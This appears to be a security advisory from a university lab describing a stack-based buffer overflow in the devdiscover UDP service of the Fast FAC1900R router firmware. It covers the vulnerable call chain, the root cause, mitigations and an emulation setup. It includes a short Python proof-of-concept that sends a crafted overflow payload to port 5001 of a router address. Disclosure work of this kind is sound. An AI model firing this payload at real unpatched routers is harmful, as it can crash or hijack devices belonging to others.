






# Overview
Details of the vulnerability found in the Fast router FAC1900R.

| Firmware Name | Version | Download Link |
|--------------|---------|---------------|
| FAC1900R | 20190827_2.0.2 | https://service.fastcom.com.cn/download-379.html |

## Product Attribution

- Product: FAC1900R
- Name: FAC1900R
- Version: 20190827_2.0.2
- Vendor: Fast
- Vendor Website: https://www.fastcom.com.cn/
- Product Page: https://www.fastcom.com.cn/product/1900r.html


# Vulnerability Details

## 1. Vulnerability Trigger Location

A stack-based buffer overflow vulnerability exists in the `copy_msg_element` function within the firmware's `devdiscover` service (at offset 0x4049C464). This function calls `memcpy` when copying message element data, but fails to perform an upper-bound check on a user-controllable length field originating from network packets. A specially crafted UDP request can trigger this vulnerability.




## 2. Vulnerability Analysis

This vulnerability occurs when the `devdiscover` service receives UDP packets (on port 5001). The service is responsible for handling LAN device discovery protocol (similar to SSDP). When a broadcast/unicast discovery packet is received, it enters the following processing chain: `devDiscoverHandle` → `protocol_handler` → `ms_idle_handler` → `parse_advertisement_frame` → `copy_msg_element`.

```
UDP port 5001
  └─ devDiscoverHandle()              @ 0x4049A66C
       └─ protocol_handler()          @ 0x4049DE6C
            └─ ms_idle_handler()      @ 0x4049DB6C
                 └─ parse_advertisement_frame()  @ 0x4049C4AC
                      ├─ parse_msg_element()     ← parses message elements from UDP packet
                      └─ copy_msg_element()      @ 0x4049C464  ← vulnerability point
                           └─ memcpy(dest, src, user_controlled_len)
```




The first argument `a1` of `copy_msg_element` points to the message element data parsed from the UDP packet. `a3` is the following 16-bit length field (user-controllable, range 0~65535). The destination buffer `v22` resides in `parse_advertisement_frame`'s stack frame, with a size of only approximately 229 bytes. Since `memcpy` uses `a3` as the copy length without performing an upper-bound check, when an attacker sets `a3 > 229` in the UDP packet, the copy operation overwrites adjacent data on the stack, including the saved function return address (LR). Upon function return, PC jumps to the attacker-controlled address, triggering a service crash or potential control-flow hijacking.

## 3. Workaround

1. Add an upper-bound check on the `a3` parameter in `copy_msg_element`, ensuring `a3 <= sizeof(dest_buffer)`.
2. Validate the length field returned by `parse_msg_element` before calling `copy_msg_element`.
3. Use a length-bounded safe copy function, or adopt boundary-safe functions.

## 4. Official Fix

No official patch for this vulnerability has been publicly released by the vendor at this time. Users are advised to monitor vendor security advisories and upgrade to the latest firmware version promptly.

# POC

## Python Scripts

```python
import socket
# Target: FAC1900R devdiscover service (UDP port 5001)
# Triggers copy_msg_element stack buffer overflow

payload = bytes.fromhex(
    "0102 0e00 e12b 83c7 6359 0345 0000 0005"
    "c709 0977 0008 0000 0005 0004 4141 4141"
    "0041 4141 4141 4141 4141 4141 4141 4140"
    "4116 4141 4141 4141 4144 4141 4141 8000"
    "0000 6441 4141 4141 4141 4241 0141 4141"
    "4141".replace(" ", "")
)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(payload, ("192.168.1.1", 5001))
sock.close()
```

**Payload Structure:**
- Front section: devdiscover protocol header (containing a forged message element length field with `a3 > 229`)
- Rear section: consecutive `0x41` ('A') data (82 bytes), used to fill the stack buffer and overwrite the return address (LR)

# Vulnerability Trigger Process

1. Use `binwalk -Me` to extract the `10400` file from the original firmware (the firmware OS is VxWorks, this file is the main binary), along with the symbol table file `symbols.txt`.
2. Use a self-developed emulation tool specifically for VxWorks devices to start the service and perform verification (platform based on LibAFL QEMU system-mode emulation, ARM little-endian architecture, load base address 0x40205000).
3. The emulation tool hooks the firmware's `recvfrom` call, injecting the crafted malicious UDP payload into the receive buffer of the `devdiscover` service (port 5001).



The program eventually returned an error：



# Discoverer

m202472188@hust.edu.cn HUST IOTS&P lab
